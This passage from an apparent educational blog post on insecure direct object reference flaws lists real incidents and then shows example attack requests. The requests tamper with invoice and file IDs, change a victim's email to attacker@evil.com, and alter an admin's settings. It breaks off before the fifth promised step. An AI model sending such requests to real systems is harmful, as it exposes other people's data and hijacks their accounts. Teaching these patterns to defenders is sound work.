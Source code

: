 **Impact:** Names, phone numbers, home addresses leaked.

### **⚠️ Issuetrak CVE-2025-2271**

**Flaw:** Low-privileged users accessed audit logs of other users.  
  
**Impact:** Exposed sensitive internal IT audit data.

### **⚠️ Academic Publishing Platform (2024)**

**Flaw:** Sequential manuscript IDs allowed data scraping.  
  
**Impact:** Academic documents, payments, and acceptance letters leaked.

---

## **How Hackers Do It: 5 Real Exploit Steps (With Code)**

[![How Hackers Do It](https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2Fwsznfn833tmpxig0eytr.png align="left")](https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2Fwsznfn833tmpxig0eytr.png)

> ⚠️ Educational Purposes Only – Never attempt unauthorized access.

### **1\. URL Tampering**

```powershell
# Original
GET /view_invoice?invoice_id=7001

# Tampered
GET /view_invoice?invoice_id=7002
```

### **2\. Hidden Form Field Manipulation (Burp Suite)**

```http
POST /api/updateProfile
{
  "user_id": "victim123",
  "email": "attacker@evil.com"
}
```

### **3\. File Download Exploitation**

```powershell
/download?file=other_user_docs.pdf
```

### **4\. API Body Injection**

```json
PATCH /api/user/settings
{
  "id": "admin",
  "notifications": "off"
}
```
